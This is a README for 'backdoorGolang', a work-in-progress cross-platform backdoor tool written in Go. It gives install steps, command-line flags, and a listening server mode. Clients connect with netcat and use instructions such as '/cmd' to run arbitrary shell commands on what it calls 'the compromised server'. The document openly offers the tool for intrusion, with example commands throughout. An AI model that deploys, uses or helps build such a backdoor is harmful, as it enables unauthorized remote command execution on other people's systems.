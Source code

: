 # backdoorGolang
Backdoor with Golang (Cross-Plateform)

_/!\ Work in progress, not a stable release /!\_

##Main goal

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :
```bash
(sudo) pacman -S community/go
```

From Debian :
```bash
(sudo) apt-get install golang-go
```

## Installation

```bash
cd $GOPATH
go get github.com/pilebones/backdoorGolang
./bin/backdoorGolang --help

```

## Usage

```bash
./bin/backdoorGolang --help
Usage of ./bin/backdoorGolang:
  -d, --debug         Enable mode debug
  -h, --host string   Set hostname to use (default "localhost")
  -l, --listen        Enable listen mode (server socket mode)
  -p, --port int      Set port number to use (default 9876)
  -v, --verbose       Enable mode verbose
  -V, --version       Display version number
```

## Server-mode

```bash
./bin/backdoorGolang -h localhost -p 1234 -l
```

Notice : Server is multi-user capable (one server for X client)

## Client-mode

/!\ Not implemented yet, use netcat meanwhile !

```bash
netcat localhost 1234
```

### Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```
Example :
```bash
echo "/quit"|netcat localhost 1234
```

#### Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```
Example :
```bash
echo "/cmd ls -l"|netcat localhost 1234
```
